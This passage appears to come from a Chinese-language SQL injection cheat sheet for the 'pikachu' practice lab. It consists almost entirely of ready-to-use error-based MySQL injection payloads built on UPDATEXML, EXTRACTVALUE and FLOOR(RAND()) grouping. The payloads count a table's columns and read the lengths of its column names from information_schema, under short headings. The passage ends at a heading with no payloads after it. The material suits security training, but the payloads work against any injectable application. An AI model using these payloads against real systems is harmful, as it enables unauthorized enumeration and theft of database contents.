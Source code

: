 ```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema='pikachu' and table_name='users'), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中字段的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() and table_name='users'), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() and table_name='users'), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() and table_name='users'), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断指定数据库中指定数据表中第一个字段名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中第一个字段名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断指定数据库中指定数据表中第一个字段名的第一个字符
